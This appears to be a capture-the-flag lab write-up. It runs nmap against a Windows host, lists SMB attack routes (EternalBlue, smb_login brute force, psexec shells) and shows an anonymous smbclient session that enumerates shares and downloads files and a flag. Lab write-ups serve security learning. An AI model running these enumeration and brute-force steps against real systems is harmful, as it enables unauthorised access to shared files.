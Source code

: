 Nmap scanning:

~~~
nmap 10.129.147.30 -sC -sV
~~~

~~~
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-09 08:26 EDT
Nmap scan report for 10.129.147.30
Host is up (0.59s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windowscd 

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-06-09T16:27:09
|_  start_date: N/A
|_clock-skew: 4h00m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.27 seconds
~~~


Microsoft windows RPC:
remote procedure call for creating distributed client /sever programs. you can use RPC in **all client/server applications based on Windows operating systems**. It can also be used to create client and server programs for heterogeneous network environments that include such operating systems as Unix and Apple

heterogeneous network:
this is the network where the devices are made by  different manufactures or the computers runs with different operating system.
homogeneos network:
this is computer network comprised of computers using similar configuration  and protocols

NetBIOS is a service which allows communication between applications suchn as a printer or other computer in ether etc..


SMB stands for Server Message Block, which is a network protocol used for file sharing, printer sharing, and communication between devices in a network
smb exploit ways :
Eternal Blue 
it is the windows exploit created by US national agency.it exploits a vuln in microsoft implementation of the server message blocker 
SMB login via brute force

Psexec to connect SMB 
psexec is same as the telnet protocol PsExec is a light-weight telnet-replacement that lets you execute processes on other systems, complete with full interactivity for console applications, without having to manually install client software
Rundll32 one-liner to exploit smb

>>bruteforce the smb by this exploit auxiliary/scanner/smb/smb_login
>>get the shell by this exploit exploit/windows/smb/psexec
>>

smb exploit via Ntlm capture



smbclient is used to share files from windows to linux and backups from windows 
using smbclient

 >>..smbclient -N -L \\\\10.129.147.30\\  

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.147.30 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

>>smbclient -N \\\\10.129.147.30\\ADMIN$
tree connect failed: NT_STATUS_ACCESS_DENIED

>>smbclient -N \\\\10.129.147.30\\IPC$  
Try "help" to get a list of possible commands.
smb: \> whoami
whoami: command not found
smb: \> ls
NT_STATUS_NO_SUCH_FILE listing \*
smb: \> dir
NT_STATUS_NO_SUCH_FILE listing \*
smb: \> bye
bye: command not found
smb: \> exit


>>smbclient -N \\\\10.129.147.30\\WorkShares
Try "help" to get a list of possible commands.
smb: \> help
?              allinfo        altname        archive        backup         
blocksize      cancel         case_sensitive cd             chmod          
chown          close          del            deltree        dir            
du             echo           exit           get            getfacl        
geteas         hardlink       help           history        iosize         
lcd            link           lock           lowercase      ls             
l              mask           md             mget           mkdir          
more           mput           newer          notify         open           
posix          posix_encrypt  posix_open     posix_mkdir    posix_rmdir    
posix_unlink   posix_whoami   print          prompt         put            
pwd            q              queue          quit           readlink       
rd             recurse        reget          rename         reput          
rm             rmdir          showacls       setea          setmode        
scopy          stat           symlink        tar            tarmode        
timeout        translate      unlock         volume         vuid           
wdel           logon          listconnect    showconnect    tcon           
tdis           tid            utimes         logoff         ..             
!              
smb: \> ld
ld: command not found
smb: \> ls
  .                                   D        0  Mon Mar 29 04:22:01 2021
  ..                                  D        0  Mon Mar 29 04:22:01 2021
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021

                5114111 blocks of size 4096. 1752194 blocks available
smb: \> dir
  .                                   D        0  Mon Mar 29 04:22:01 2021
  ..                                  D        0  Mon Mar 29 04:22:01 2021
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021

                5114111 blocks of size 4096. 1752194 blocks available
smb: \> cd Amy.J
smb: \Amy.J\> ls
\  .                                   D        0  Mon Mar 29 05:08:24 2021
  ..                                  D        0  Mon Mar 29 05:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 07:00:37 2021

                5114111 blocks of size 4096. 1752194 blocks available
smb: \Amy.J\> \cat worknotes.txt
\cat: command not found
smb: \Amy.J\> open worknotes.txt
open file \Amy.J\worknotes.txt: for read/write fnum 1
smb: \Amy.J\> open worknotes.txt read
open file \Amy.J\worknotes.txt: for read/write fnum 2
smb: \Amy.J\> get worknotes.txt
getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \Amy.J\> cd ..
smb: \> James.P
James.P: command not found
smb: \> cd James.P
smb: \James.P\> dir
  .                                   D        0  Thu Jun  3 04:38:03 2021
  ..                                  D        0  Thu Jun  3 04:38:03 2021
  flag.txt                            A       32  Mon Mar 29 05:26:57 2021

                5114111 blocks of size 4096. 1752178 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \James.P\> 

>>smbclient -N \\\\10.129.147.30\\C$        
tree connect failed: NT_STATUS_ACCESS_DENIED

~~~
flag:5f61c10dffbc77a704d76016a22f1664
~~~


finally get the flag using smb










